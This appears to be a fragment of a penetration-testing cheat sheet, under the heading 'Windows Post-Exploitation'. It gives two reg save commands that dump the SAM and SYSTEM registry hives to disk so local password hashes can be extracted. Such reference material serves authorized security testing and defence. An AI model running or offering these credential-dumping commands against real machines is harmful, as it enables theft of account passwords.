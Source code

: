 #### Windows Post-Exploitation
- Dump SAM/SYSTEM (local)
```bash
reg save HKLM\SAM c:\temp\sam
reg save HKLM\SYSTEM c:\temp\system
```
